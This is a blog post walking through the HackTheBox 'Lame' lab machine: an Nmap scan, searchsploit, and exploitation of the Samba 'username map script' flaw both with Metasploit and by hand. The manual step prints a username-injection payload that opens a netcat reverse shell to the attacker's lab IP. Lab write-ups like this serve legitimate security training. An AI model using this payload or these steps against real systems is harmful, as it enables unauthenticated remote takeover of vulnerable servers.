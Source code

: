 ```yaml
---
layout: post
comments: true
section-type: post
title: HackTheBox Write-up - Lame
category: hackthebox
tags: [ 'samba', 'oscp-like-machine' ]
---
```


**DIGEST**

An initial Nmap scan result will show us a vulnerable samba service which is running on port 139. It's vulnerable to the "Samba username map script" vulnerability and exploited using both Manual and Metasploit module.

![lame](../../../../img/htb/lame/lame.png)

<html>

<head>
    <style>
    b {
  font-weight: bold;
}
        table {
            font-family: arial, sans-serif;
            border-collapse: collapse;
            width: 100%;
        }

        td,
        th {
            border: 1px solid #050505;
            text-align: left;
            padding: 8px;
        }

        tr:nth-child(even) {
            background-color: #050505;
        }
    </style>
</head>

<body>
    <h2 class="text-center">Lame</h2>
    <p>
        <table>
            <tbody>
                <tr>
                    <td class="text-right">OS:</td>
                    <td>Linux</td>
                </tr>
                <tr>
                    <td class="text-right">Difficulty:</td>
                    <td> <span class="text-success bold">Easy</span></td>
                </tr>
                <tr>
                    <td class="text-right">Points:</td>
                    <td><span class="text-success">20</span></td>
                </tr>
                <tr>
                    <td class="text-right">Release:</td>
                    <td>14 Mar 2017</td>
                </tr>
                <tr>
                    <td class="text-right">IP:</td>
                    <td>10.10.10.3</td>
                </tr>
            </tbody>
        </table>
    </p>
</body>
</html>


**Tools Used:**

> Nmap, Searchsploit, Metsaploit


**Initial Scan with Nmap:**

![lame-nm](../../../../img/htb/lame/lame-nmap.png)

![lame-nmap](../../../../img/htb/lame/lame-nmap-result.png)

**Vulnerable Samba service on port 139:**

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

**Searchsploit:**

> $ searchsploit Samba 3.0.20

![Searchsploit](../../../../img/htb/lame/lame-sp.png)

**MSF Module - Samba "username map script" Command Execution:**

> $ msf> use exploit/multi/samba/usermap_script

![msf](../../../../img/htb/lame/lame-msf.png)

![shell](../../../../img/htb/lame/lame-msf2.png)

![root](../../../../img/htb/lame/lame-hash.png)

**Manual Exploitation:**

> logon “./=`nohup nc -e /bin/bash 10.10.14.18 4444`"

![Manual](../../../../img/htb/lame/lame-manual1.png)

![Manualroot](../../../../img/htb/lame/lame-manual2.png)

**Rate Matrix:**

![matrix](../../../../img/htb/lame/lame-matrix.png)

<h5><center>Thanks for reading ❤️! </center></h5>
<h5><center>Feel free to leave a comment 💬 below.</center></h5>
